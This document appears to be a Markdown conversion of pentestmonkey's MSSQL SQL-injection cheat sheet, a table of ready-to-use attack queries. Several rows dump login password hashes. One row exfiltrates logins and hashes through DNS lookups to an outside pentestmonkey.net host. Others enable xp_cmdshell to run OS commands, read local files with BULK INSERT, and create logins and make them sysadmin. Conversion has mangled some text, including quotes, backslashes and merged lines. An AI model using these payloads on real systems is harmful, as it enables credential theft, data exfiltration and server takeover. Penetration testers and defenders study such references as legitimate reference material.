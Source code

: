 # All credits to pentestmonkey
|Description| Command|
|--- |--- |
|Version|SELECT @@version|
|Comments|SELECT 1 — comment
SELECT /*comment*/1|
|Current User|SELECT user_name();
SELECT system_user;
SELECT user;
SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID|
|List Users|SELECT name FROM master..syslogins|
|List Password Hashes|SELECT name, password FROM master..sysxlogins — priv, mssql 2000;
SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins — priv, mssql 2000.  Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer.
SELECT name, password_hash FROM master.sys.sql_logins — priv, mssql 2005;
SELECT name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins — priv, mssql 2005|
|Password Cracker|MSSQL 2000 and 2005 Hashes are both SHA1-based.  phrasen|drescher can crack these.|
|List Privileges|– current privs on a particular object in 2005, 2008
SELECT permission_name FROM master..fn_my_permissions(null, ‘DATABASE’); — current database
SELECT permission_name FROM master..fn_my_permissions(null, ‘SERVER’); — current server
SELECT permission_name FROM master..fn_my_permissions(‘master..syslogins’, ‘OBJECT’); –permissions on a table
SELECT permission_name FROM master..fn_my_permissions(‘sa’, ‘USER’);
–permissions on a user– current privs in 2005, 2008
SELECT is_srvrolemember(‘sysadmin’);
SELECT is_srvrolemember(‘dbcreator’);
SELECT is_srvrolemember(‘bulkadmin’);
SELECT is_srvrolemember(‘diskadmin’);
SELECT is_srvrolemember(‘processadmin’);
SELECT is_srvrolemember(‘serveradmin’);
SELECT is_srvrolemember(‘setupadmin’);
SELECT is_srvrolemember(‘securityadmin’);
– who has a particular priv? 2005, 2008
SELECT name FROM master..syslogins WHERE denylogin = 0;
SELECT name FROM master..syslogins WHERE hasaccess = 1;
SELECT name FROM master..syslogins WHERE isntname = 0;
SELECT name FROM master..syslogins WHERE isntgroup = 0;
SELECT name FROM master..syslogins WHERE sysadmin = 1;
SELECT name FROM master..syslogins WHERE securityadmin = 1;
SELECT name FROM master..syslogins WHERE serveradmin = 1;
SELECT name FROM master..syslogins WHERE setupadmin = 1;
SELECT name FROM master..syslogins WHERE processadmin = 1;
SELECT name FROM master..syslogins WHERE diskadmin = 1;
SELECT name FROM master..syslogins WHERE dbcreator = 1;
SELECT name FROM master..syslogins WHERE bulkadmin = 1;|
|List DBA Accounts|SELECT is_srvrolemember(‘sysadmin’); — is your account a sysadmin?  returns 1 for true, 0 for false, NULL for invalid role.  Also try ‘bulkadmin’, ‘systemadmin’ and other values from the documentation
 SELECT is_srvrolemember(‘sysadmin’, ‘sa’); — is sa a sysadmin? return 1 for true, 0 for false, NULL for invalid role/username.
SELECT name FROM master..syslogins WHERE sysadmin = ’1′ — tested on 2005|
|Current Database|SELECT DB_NAME()|
|List Databases|SELECT name FROM master..sysdatabases;
SELECT DB_NAME(N); — for N = 0, 1, 2, …|
|List Columns|SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘mytable’); — for the current DB only
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable|
|List Tables|SELECT name FROM master..sysobjects WHERE xtype = ‘U’; — use xtype = ‘V’ for views
SELECT name FROM someotherdb..sysobjects WHERE xtype = ‘U’;
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable|
|Find Tables From Column Name|– NB: This example works only for the current database.  If you wan’t to search another db, you need to specify the db name (e.g. replace sysobject with mydb..sysobjects).
SELECT sysobjects.name as tablename, syscolumns.name as columnname FROM sysobjects JOIN syscolumns ON sysobjects.id = syscolumns.id WHERE sysobjects.xtype = ‘U’ AND syscolumns.name LIKE ‘%PASSWORD%’ — this lists table, column for each column containing the word ‘password’|
|Select Nth Row|SELECT TOP 1 name FROM (SELECT TOP 9 name FROM master..syslogins ORDER BY name ASC) sq ORDER BY name DESC — gets 9th row|
|Select Nth Char|SELECT substring(‘abcd’, 3, 1) — returns c|
|Bitwise AND|SELECT 6 & 2 — returns 2
SELECT 6 & 1 — returns 0|
|ASCII Value -> Char|SELECT char(0×41) — returns A|
|Char -> ASCII Value|SELECT ascii(‘A’) – returns 65|
|Casting|SELECT CAST(’1′ as int);
SELECT CAST(1 as char)|
|String Concatenation|SELECT ‘A’ + ‘B’ – returns AB|
|If Statement|IF (1=1) SELECT 1 ELSE SELECT 2 — returns 1|
|Case Statement|SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END — returns 1|
|Avoiding Quotes|SELECT char(65)+char(66) — returns AB|
|Time Delay|WAITFOR DELAY ’0:0:5′ — pause for 5 seconds|
|Make DNS Requests|declare @host varchar(800); select @host = name FROM master..syslogins; exec(‘master..xp_getfiledetails ”\’ + @host + ‘c$boot.ini”’); — nonpriv, works on 2000declare @host varchar(800); select @host = name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) + ‘.2.pentestmonkey.net’ from sys.sql_logins; exec(‘xp_fileexist ”\’ + @host + ‘c$boot.ini”’); — priv, works on 2005– NB: Concatenation is not allowed in calls to these SPs, hence why we have to use @host.  Messy but necessary.
– Also check out theDNS tunnel feature of sqlninja|
|Command Execution|EXEC xp_cmdshell ‘net user’; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:
EXEC sp_configure ‘show advanced options’, 1; — priv
RECONFIGURE; — priv
EXEC sp_configure ‘xp_cmdshell’, 1; — priv
RECONFIGURE; — priv|
|Local File Access|CREATE TABLE mydata (line varchar(8000));
BULK INSERT mydata FROM ‘c:boot.ini’;
DROP TABLE mydata;|
|Hostname, IP Address|SELECT HOST_NAME()|
|Create Users|EXEC sp_addlogin ‘user’, ‘pass’; — priv|
|Drop Users|EXEC sp_droplogin ‘user’; — priv|
|Make User DBA|EXEC master.dbo.sp_addsrvrolemember ‘user’, ‘sysadmin; — priv|
|Location of DB files|EXEC sp_helpdb master; –location of master.mdf
EXEC sp_helpdb pubs; –location of pubs.mdf|
|Default/System Databases|northwind
model
msdb
pubs — not on sql server 2005
tempdb|
